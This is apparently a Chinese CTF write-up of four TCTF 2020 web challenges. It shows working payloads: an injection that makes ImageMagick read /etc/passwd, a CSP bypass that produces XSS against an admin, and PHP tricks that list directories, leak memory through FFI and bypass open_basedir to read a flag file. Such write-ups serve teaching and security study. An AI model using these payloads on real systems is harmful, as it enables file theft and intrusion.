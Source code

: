 categories:
- 比赛
tags:
- wp
- ctf
title: tctf2020
---
# tctf2020

好难.jpg



## Wechat Generator

这题在我们一堆人的群殴下才做出来

题目主要的http请求是：

![image130](https://raw.githubusercontent.com/Explorersss/photo/master/20200629195954.png)



![image216](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200021.png)

与

```
http://pwnable.org:5000/image/VMyeGe/xxx
xxx是后缀，具体列表在：https://imagemagick.org/script/formats.php
```





### 第一部分 ImageMagick读取文件

测试share发现，无论我们输入的previewid时候存在，都会生成一个短链

![image480](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200254.png)

访问对应的png界面时: http://pwnable.org:5000//image/ZpVQfl/png 

返回报错

```
{"error": "Convert exception: unable to open image `previews/testting': No such file or directory @ error/blob.c/OpenBlob/2874"}
```

根据报错猜测是ImageMagick 来转换成对应的后缀

fuzz后缀后发现：

```
http://pwnable.org:5000/image/FdrpgF/htm
```

![image857](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200643.png)

根据preview返回的数据，后端估计是先生成一个svg,再转化为其他的格式

我们再看看他们是如何传递并表示表情的

![image1001](https://raw.githubusercontent.com/Explorersss/photo/master/20200629200926.png)

![image1085](https://raw.githubusercontent.com/Explorersss/photo/master/20200629201154.png)

发现

![image1173](https://raw.githubusercontent.com/Explorersss/photo/master/20200629201349.png)

修改[]里的值可以逃出引号的限制

```
[{"type":0,"message":"[../../image/mOFJpl/svg#\"></g></svg><script srsrcc=\"/image/kOmxqd/jpg?callback=aaa\"></script><svg><g><image xlink:href=\"]"}]
```



![image1437](https://raw.githubusercontent.com/Explorersss/photo/master/20200629225818.png)



搜索**ImageMagick convert ctf** 发现，ImageMagick convert可以[读取文件](https://blog.bushwhackers.ru/googlectf-2019-gphotos-writeup/)

构造:

```
------WebKitFormBoundaryHJ88AZN7
Content-Disposition: form-data; name="data"

[{"type":0,"message":"[\" href=\"text:/etc/passwd\" onerror=\"//]"}]
------WebKitFormBoundaryHJ88AZN7--
```



![image1845](https://raw.githubusercontent.com/Explorersss/photo/master/20200629230827.png)



测试常见的文件后找到源文件：app.py

![image1953](https://raw.githubusercontent.com/Explorersss/photo/master/20200629230936.png)

这里我们重点关注responseJSON和 secret这两个函数

### 第二部分 xss管理员

secret是让我们xss管理员，但是存在csp:

```
img-src * data:; default-src 'self'; style-src 'self' 'unsafe-inline'; connect-src 'self'; object-src 'none'; base-uri 'self'
```



responseJSON可以让我们在json数据前加上xxx=,结合报错返回的数据是json格式，如果我们能控制报错信息，我们就能绕过csp

前文发现 ImageMagick 的那个接口(share)刚好可以控制报错信息

```
previewid=`test"},alert(1),{"2":"
```

![image2409](https://raw.githubusercontent.com/Explorersss/photo/master/20200629231535.png)

接着就是让htm包含它：



```
[{"type":0,"message":"[../../image/mOFJpl/svg#\"></g></svg><link rel=\"stylesheet\" href=\"/static/css/bootstrap.min.css\"><script ssrcrc=\"/static/js/jquery-3.5.1.min.js\"></script><script ssrcrc=\"/static/js/bootstrap.min.js\"></script><script srsrcc=\"/image/kOmxqd/jpg?callback=aaa\"></script><svg><g><image xlink:href=\"]"}]
```

![image2848](https://raw.githubusercontent.com/Explorersss/photo/master/20200629231806.png)





![image2936](https://raw.githubusercontent.com/Explorersss/photo/master/20200629231854.png)

### 其他解法



一叶飘零大大的wp：

 https://skysec.top/2020/06/27/2020-TCTF-Online-Web-WriteUp/#Wechat-Generator 





## easyphp

```
 <?php
if (isset($_GET['rh'])) {
    eval($_GET['rh']);
} else {
    show_source(__FILE__);
}
```

很简单的源代码,首先查看phpinfo:

![image3265](https://raw.githubusercontent.com/Explorersss/photo/master/20200629232130.png)

open_basedir: /var/www/html 且该目录不可写，twitter上那个绕过open_basedir的方法就没用了

利用

```
$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
```

列目录：

```
bin dev etc flag.h flag.so home lib media mnt opt proc root run sbin srv start.sh sys tmp usr var
```

看到flag.h+flag.so+ffi猜测是要用ffi来加载flag.h然后执行其中的方法，

测试后发现 ffi::load 无视open_basedir ,但是只能加载 /flag.h

当我们又不知道flag.h中的函数定义。。。。。。

后来这题是因为别人把题目打穿了，全场绕过open_basedir，读取了flag



## noeasyphp

这题听说是因为出题人因为easyphp重出的题目

这里就要直面刚刚明明无法读取flag.h又要了解flag.h中的函数声明

因为这里有ffi，可以直接操作系统的底层，我们试试内存泄露

```php
$c=FFI::load("/flag.h");
$b=FFI::cast("void *",FFI::new("int[1]",false));
$a=FFI::string($b-400000,400000);
var_dump($a);

```



![image4044](https://raw.githubusercontent.com/Explorersss/photo/master/20200630000339.png)

![image4128](https://raw.githubusercontent.com/Explorersss/photo/master/20200630000414.png)

好玩.jpg



## Cloud Computing

```php
<?php mkdir('/var/www/html/sandbox/362495b25219141379062025d7d6d775772e6b7d/test2');chdir('/var/www/html/sandbox/362495b25219141379062025d7d6d775772e6b7d/test2');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('/flag'));
```




